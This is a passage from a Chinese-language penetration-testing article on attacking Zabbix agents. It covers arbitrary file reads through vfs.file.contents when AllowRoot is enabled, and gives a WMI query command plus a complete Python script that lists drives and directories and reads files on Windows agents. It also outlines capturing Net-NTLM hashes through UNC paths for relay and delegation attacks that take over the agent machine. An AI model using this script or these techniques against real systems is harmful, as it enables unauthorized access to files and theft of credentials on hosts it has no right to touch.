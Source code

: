 zabbix\_agentd 服务默认以低权限用户 zabbix 运行，读取文件受 zabbix 用户权限限制。开启 AllowRoot 参数情况下 zabbix\_agentd 服务会以 root 权限运行，利用 `vfs.file.contents` 命令就能任意文件读取。

如果文件超过 64KB 无法读取，在了解该文件字段格式的情况下可利用 `vfs.file.regexp` 命令正则获取关键内容。

### [](#34-windows-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86)3.4 Windows 目录遍历

Zabbix 原生监控项中，`wmi.get` 命令可以执行 WMI 查询并返回第一个对象，通过 WQL 语句可以查询许多机器信息。

如：WQL 查询盘符

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>zabbix_get -s agent -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"<br>``` |

利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```python<br>import os<br>import sys<br><br>count = 0<br><br>def zabbix_exec(ip, command):<br>    global count<br>    count = count + 1<br>    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()<br>    if "Cannot obtain WMI information" not in check:<br>        return check.strip()<br>    else:<br>        return False<br><br>def getpath(path):<br>    return path.replace("\\","\\\\\\\\").replace("$","\\$")<br><br>def GetDisk(ip):<br>    where = ""<br>    while(True):<br>        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")<br>        if check_disk:<br>            print(check_disk)<br>            where = where + "AND Name != '" + check_disk+ "'"<br>        else:<br>            break<br><br>def GetDirs(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_dir:<br>            print(check_dir)<br>            where = where + "AND Caption != '" + getpath(check_dir) + "'"<br>        else:<br>            break<br><br>def GetFiles(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_file:<br>            if "Invalid item key format" in check_file:<br>                continue<br>            print(check_file)<br>            where = where + "AND Name != '" + getpath(check_file) + "'"<br>        else:<br>            break<br><br>def Readfile(ip, file):<br>    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")<br>    print(read)<br><br>if __name__ == "__main__":<br>    if len(sys.argv) == 2:<br>        GetDisk(sys.argv[1])<br>    elif sys.argv[2][-1] != "\\":<br>        Readfile(sys.argv[1], sys.argv[2])<br>    else:<br>        GetDirs(sys.argv[1],sys.argv[2])<br>        GetFiles(sys.argv[1],sys.argv[2])<br>    <br>    print("Request count: " + str(count))<br>``` |

### [](#35-windows-unc-%E8%B7%AF%E5%BE%84%E5%88%A9%E7%94%A8)3.5 Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。（此处直接结果直接引用，未做实验）

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print](assets/1699408100-3e197426dd682fb0113c4d597f04bbfa.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print](assets/1699408100-cc09defeee87b5fc7792a8593b487359.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print")
